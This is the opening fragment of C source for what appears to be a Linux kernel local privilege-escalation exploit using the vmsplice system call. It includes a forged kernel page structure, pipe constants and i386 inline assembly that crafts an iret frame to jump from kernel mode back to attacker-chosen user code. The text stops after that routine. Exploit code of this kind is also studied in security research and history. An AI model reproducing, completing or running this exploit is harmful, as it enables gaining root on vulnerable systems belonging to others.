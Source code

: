 #include <malloc.h>
#include <limits.h>
#include <signal.h>
#include <unistd.h>
#include <sys/uio.h>
#include <sys/mman.h>
#include <asm/page.h>
#define __KERNEL__
#include <asm/unistd.h>

#define PIPE_BUFFERS	16
#define PG_compound	14
#define uint		unsigned int
#define static_inline	static inline __attribute__((always_inline))
#define STACK(x)	(x + sizeof(x) - 40)

struct page {
	unsigned long flags;
	int count;
	int mapcount;
	unsigned long private;
	void *mapping;
	unsigned long index;
	struct { long next, prev; } lru;
};

void	exit_code();
char	exit_stack[1024 * 1024];

void	die(char *msg, int err)
{
	printf(err ? "[-] %s: %s\n" : "[-] %s\n", msg, strerror(err));
	fflush(stdout);
	fflush(stderr);
	exit(1);
}

#if defined (__i386__)

#ifndef __NR_vmsplice
#define __NR_vmsplice	316
#endif

#define USER_CS		0x73
#define USER_SS		0x7b
#define USER_FL		0x246

static_inline
void	exit_kernel()
{
	__asm__ __volatile__ (
	"movl %0, 0x10(%%esp) ;"
	"movl %1, 0x0c(%%esp) ;"
	"movl %2, 0x08(%%esp) ;"
	"movl %3, 0x04(%%esp) ;"
	"movl %4, 0x00(%%esp) ;"
	"iret"
	: : "i" (USER_SS), "r" (STACK(exit_stack)), "i" (USER_FL),
	    "i" (USER_CS), "r" (exit_code)
	);
}
